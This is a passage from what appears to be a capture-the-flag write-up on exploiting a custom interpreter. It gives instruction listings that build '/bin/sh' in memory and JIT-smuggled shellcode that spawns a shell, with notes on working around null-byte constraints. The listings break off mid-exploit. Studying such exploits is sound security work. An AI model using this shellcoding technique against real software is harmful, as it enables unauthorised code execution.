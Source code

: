     "MOV(A, 0)",
    "CMP(A, 18524)",        // (18) <---a
    "JEQ(27)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    ///////////// 20
    "LDR(A, 2)",            // load value from 2
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 2)",            // store value in 2
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    ///////////// 25
    "JMP(18)",              // a------->
    "LDR(A, 2)",
    "ADD(A, 18699)",        // value += 18699 => 0x6e69622f
    "STR(A, 0)",S
    ...
{% endhighlight %}

With this done, our "/bin/sh" string has been placed in memory, and we just have to set the values of the registers accordingly. One thing that had to be considered while shellcoding was that we always have 2 bytes of nulls after each 2 bytes of arbitrary shellcode we execute. Unfortunately, these two bytes represent the instruction,
```
0x0000000000000000:  00 00    add byte ptr [rax], al
```
If `rax` doesn't point to a writable region of memory, this will cause a SEGFAULT. As it turns out, it doesn't point to a writeable region, which sucks, but we can fix this within 2 bytes of shellcode. Since `r12` points to the writable `rw-` region, we can simply do `xchg rax, r12` which fits within 2 bytes, and sets our `rax` to a sane value. Afterwards, we can finish up the exploit with some simple pops, pushes and nops which nicely fit within 1 or 2 bytes. The full exploit code looks like so.

{% highlight C %}
const char * prog[] = {
    "JMP(\xe0\xa5\xac)",
    ///////////// 0
    "MOV(A, 95318)",        // push rsi
    "JMP(\xe0\xa5\xae)",
    "MOV(A, 95321)",        // pop rcx
    "MOV(A, 0)",
    "CMP(A, 68)",           // (5) <---a
    ///////////// 5
    "JEQ(14)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    "LDR(A, 1)",            // load value from 1
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 1)",            // store value in 1
    ///////////// 10
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    "JMP(5)",               // a------->
    "LDR(A, 1)",
    "ADD(A, 45299)",        // value += 45299 => 0x68732f
    ///////////// 15
    "STR(A, 1)",            // save "/sh" in 1

    "MOV(A, 0)",
    "CMP(A, 18524)",        // (18) <---a
    "JEQ(27)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    ///////////// 20
    "LDR(A, 2)",            // load value from 2
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 2)",            // store value in 2
    "LDR(A, 0)",            // load ctr from 0